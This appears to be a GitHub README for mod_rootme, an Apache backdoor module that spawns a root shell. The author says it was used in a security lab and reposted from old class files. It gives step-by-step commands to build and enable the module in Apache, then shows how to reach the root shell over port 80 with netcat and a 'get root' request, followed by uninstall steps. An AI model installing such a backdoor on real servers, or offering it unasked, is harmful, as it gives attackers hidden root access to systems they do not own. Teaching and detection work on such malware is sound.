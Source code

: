 # mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/)
that hosted the most recent version seems to have disappeared from the
web.  Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_root, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Build instructions

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo service apache restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
rm /usr/lib/apache2/modules/mod_rootme.so
sudo service apache restart
```
